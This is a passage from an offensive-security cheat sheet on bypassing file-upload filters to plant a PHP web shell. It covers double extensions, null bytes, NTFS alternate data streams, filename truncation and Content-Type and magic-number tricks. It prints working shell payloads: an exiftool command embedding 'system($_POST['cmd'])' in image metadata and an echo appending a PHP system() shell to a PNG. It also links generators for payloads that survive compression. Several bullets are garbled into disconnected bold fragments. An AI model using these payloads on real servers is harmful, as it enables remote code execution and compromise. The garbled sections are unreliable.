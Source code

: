 5. **another layer of extensions** **previous check** **Add**:
* _file.png.jpg.php_
* _file.php%00.png%00.jpg_
6. **exec extension before the valid extension** **pray** **server misconfigured**. (useful to exploit Apache misconfigurations where anything with extension\*\* _**.php**_**, but** not necessarily ending in .php\*\* will execute code):
* _ex: file.php.png_
7. **NTFS alternate data stream (ADS)** **Windows**. **colon character “:”** **forbidden extension** **permitted one**. **empty file with the forbidden extension** **created** **server** (e.g. “file.asax:.jpg”). **file edited** **techniques** **short filename**. “**::$data**” **pattern** **non-empty files**. **dot character** **pattern** **useful** **bypass further restrictions** (.e.g. “file.asp::$data.”)
8. **break the filename limits**. **valid extension gets cut off**. **malicious PHP gets left**. AAA<--SNIP-->AAA.php

```
# Linux maximum 255 bytes
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # minus 4 here and adding .png
# Upload the file and check response how many characters it alllows. Let's say 236
python -c 'print "A" * 232'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Make the payload
AAA<--SNIP 232 A-->AAA.php.png
```
### Bypass Content-Type, Magic Number, Compression & Resizing

* Bypass **Content-Type** checks by setting the **value** of the **Content-Type** **header** to: _image/png_ , _text/plain , application/octet-stream_
1. Content-Type **wordlist**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
* Bypass **magic number** check by adding at the beginning of the file the **bytes of a real image** (confuse the _file_ command). Or introduce the shell inside the **metadata**:\
`exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg`\
`\` or you could also **introduce the payload directly** in an image:\
`echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`
* If **compressions is being added to your image**, for example using some standard PHP libraries like [PHP-GD](https://www.php.net/manual/fr/book.image.php), the previous techniques won't be useful it. However, you could use the **PLTE chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
* [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen\_plte\_png.php)
* The web page cold also be **resizing** the **image**, using for example the PHP-GD functions `imagecopyresized` or `imagecopyresampled`. However, you could use the **IDAT chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
* [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen\_idat\_png.php)
* Another technique to make a payload that **survives an image resizing**, using the PHP-GD function `thumbnailImage`. However, you could use the **tEXt chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
* [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen\_tEXt\_png.php)
